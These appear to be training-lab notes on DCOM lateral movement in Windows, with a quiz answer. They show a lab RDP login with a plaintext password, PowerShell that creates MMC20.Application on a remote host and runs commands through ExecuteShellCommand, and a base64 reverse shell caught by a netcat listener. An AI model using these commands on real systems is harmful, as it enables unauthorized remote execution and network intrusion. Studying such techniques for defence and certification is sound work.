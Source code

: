 Topics: DCOM
# Question 1
Start VM Group 1 and repeat the steps discussed in this section. Which MMC method accepts command shell arguments?
# Answer
ExecuteShellCommand

# The Microsoft Component Object Model (COM) is a system for creating software components that interact with each other. While COM was created for either same-process or cross-process interaction, it was extended to Distributed Component Object Model (DCOM) for interaction between multiple computers over a network.

# Both COM and DCOM are very old technologies dating back to the very first editions of Windows. Interaction with DCOM is performed over RPC on TCP port 135 and local administrator access is required to call the DCOM Service Control Manager, which is essentially an API.

# The discovered DCOM lateral movement technique is based on the Microsoft Management Console (MMC) COM application that is employed for scripted automation of Windows systems.

# The MMC Application Class allows the creation of Application Objects, which expose the ExecuteShellCommand method under the Document.ActiveView property. As its name suggests, this method allows the execution of any shell command as long as the authenticated user is authorized, which is the default for local administrators.

xfreerdp /cert-ignore /u:jen /p:Nexus123! /d:corp.com /v:192.168.175.74

```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.175.73"))
```

# Once the application object is saved into the $dcom variable, we can pass the required argument to the application via the ExecuteShellCommand method. The method accepts four parameters: Command, Directory, Parameters, and WindowState. We're only interested in the first and third parameters, which will be populated with cmd and /c calc, respectively.

$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")

# Once we execute these two PowerShell lines from CLIENT74, we should have spawned an instance of the calculator app.
# We can verify the calculator app is running with tasklist and filtering out the output with findstr.

C:\Users\Administrator>tasklist | findstr "calc"

# We can now improve our craft by extending this attack to a full reverse shell similar to what we did in the WMI and WinRM section earlier in this Module.

# Having generated the base64 encoded reverse shell with our Python script, we can replace our DCOM payload with it.

```
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"pwsh-revsh-encode.py code","7")
```

nc -lvnp 443
PS C:\Windows\system32> whoami
corp\jen
PS C:\Windows\system32> hostname
FILES04


